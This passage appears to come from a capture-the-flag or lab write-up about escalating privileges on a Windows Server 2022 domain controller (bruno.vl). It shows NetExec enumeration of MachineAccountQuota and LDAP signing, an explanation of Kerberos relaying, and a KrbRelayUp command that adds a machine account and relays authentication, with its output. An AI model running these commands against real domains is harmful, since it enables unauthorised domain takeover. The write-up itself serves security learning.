 ```
└─$ nxc ldap 10.10.73.8 -u 'svc_scan' -p '[...snip...]' -M maq
SMB         10.10.73.8      445    BRUNODC          [*] Windows Server 2022 Build 20348 x64 (name:BRUNODC) (domain:bruno.vl) (signing:True) (SMBv1:False)                                                                                                   
LDAP        10.10.73.8      389    BRUNODC          [+] bruno.vl\svc_scan:[...snip...]
MAQ         10.10.73.8      389    BRUNODC          [*] Getting the MachineAccountQuota
MAQ         10.10.73.8      389    BRUNODC          MachineAccountQuota: 10
```

Furthermore, the LDAP does not have signing enabled. This cements the fact that a Kerberos relay attack is possible through KrbRelayUp.

```
└─$ nxc ldap 10.10.73.8 -u 'svc_scan' -p '[...snip...]' -M ldap-checker
SMB         10.10.73.8      445    BRUNODC          [*] Windows Server 2022 Build 20348 x64 (name:BRUNODC) (domain:bruno.vl) (signing:True) (SMBv1:False)                                                                                                   
LDAP        10.10.73.8      389    BRUNODC          [+] bruno.vl\svc_scan:[...snip...]
LDAP-CHE... 10.10.73.8      389    BRUNODC          LDAP Signing NOT Enforced!
LDAP-CHE... 10.10.73.8      389    BRUNODC          LDAPS Channel Binding is set to "NEVER"
```

A Kerberos relay attack is essentially an authentication attack much like NTLM relay that allows us to relay a domain objects Kerberos authentication to another service. This essentially allows us to relay an ASREQ to any SPN that we need to authenticate to. Where LDAP signing essentially plays a picture into this is that it will encrypt all traffic over LDAP, meaning we won't be able to properly sniff the traffic for authentication tokens as a MITM. If you want to delve into more information about Kerberos Relaying and how it works, [this](https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html) was the blog post I used mainly as research into the topic.

In our case, we should be able to create a fake domain computer object and coerce an authentication attempt using RBCD. The only issue is, how do we do coerce authentication if we're using Kerberos authentication? This is where the idea of abusing [CLSIDs](https://www.trendmicro.com/vinfo/us/security/definition/clsid#:~:text=The%20Class%20ID%2C%20or%20CLSID,%5CCLSID%5C%7BCLSID%20value%7D.) comes into play, as CLSIDs are essentially identifiers for application components in Windows. These are predefined by the Windows operating system, meaning we can use a curated list [here](https://github.com/jkerai1/CLSID-Lookup/blob/main/CLSID_no_duplicate_records.txt) or [here](https://vulndev.io/cheats-windows/). We're specifically looking for one that works with Windows Server 2019/2022, as that is the current operating system that we're on.

In particular, the CLSID I picked was `d99e6e73-fc88-11d0-b498-00a0c90312f3`. We'll need to compile [KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp.git) in order to exploit this on the target machine. Luckily enough, Defender is not enabled on this box so we shouldn't have to bypass AV for this.

```
PS C:\temp> "Invoke-Mimikatz"
"Invoke-Mimikatz"
Invoke-Mimikatz
```

So once we have the `KrbRelayUp` binary compiled, we'll execute it on the target machine using the CLSID that we have selected.

```
PS C:\temp> .\KrbRelayUp.exe relay -Domain bruno.vl -CreateNewComputerAccount -ComputerName daz$ -ComputerPassword Password123@ --clsid d99e6e73-fc88-11d0-b498-00a0c90312f3
.\KrbRelayUp.exe relay -Domain bruno.vl -CreateNewComputerAccount -ComputerName daz$ -ComputerPassword Password123@ --clsid d99e6e73-fc88-11d0-b498-00a0c90312f3
KrbRelayUp - Relaying you to SYSTEM


[+] Rewriting function table
[+] Rewriting PEB
[+] Init COM server
[+] Computer account "daz$" added with password "Password123@"
[+] Looking for available ports..
[+] Port 2869 available
[+] Register COM server
```